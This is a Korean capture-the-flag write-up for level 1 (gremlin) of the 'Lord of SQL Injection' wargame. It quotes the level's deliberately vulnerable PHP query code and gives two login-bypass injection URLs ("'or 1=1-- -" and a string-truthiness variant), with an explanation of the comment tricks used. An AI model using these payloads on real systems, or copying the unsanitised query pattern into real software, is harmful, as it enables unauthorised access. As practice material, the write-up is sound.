 This is an H1
=============
Lord of SQL Injection No.1 - gremlin
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
위 코드에서 알수 있는 것
4번째와 5번째줄 if문의 preg_match에서 id와 pw에 . 이나 ()가 들어가있으며 No Hack ~_~라고 뜨고 문제 풀이에 실패하게되는걸 알수있다.
DB에 저장되있는 값인 $result[id]에 어떠한 값이라도 들어가 있으면 문제를 풀수있다.

문제풀이 법
1) http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or 1=1-- -
그냥 읽어보자면 아이디의 값이 123이거나 1=1 곧 참이라는 것이다.
뒤에 -- -는 뒤에 올 pw 및 다른 값들을 입력하지 않아도 되도록 주석처리를 하는것이다.

*주석처리 법 --%20(%20은 공백), #,/**/

id=123 or 1=1-- -이 아니라 id=123' 싱글 쿼터로 닫아 줌으로써 하나의  id 값을 마무리해주면 sql문을 입력할 수 있게되는데
or연산은 앞에 값이 틀리더라도 뒤의 값이 참이면 참이게 되는 연산으로 or연산을 써줌으로 $result[id]가 참이 되어 문제가 풀리게된다.

2)http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or%20'123'%20-- -
이번 방법은 위의 방법과 동일하지만 '0'이 아닌 어떠한 문자열이 들어오게되면 이 값은 참으로 받아들여지게되어 문제가 풀리게된다.
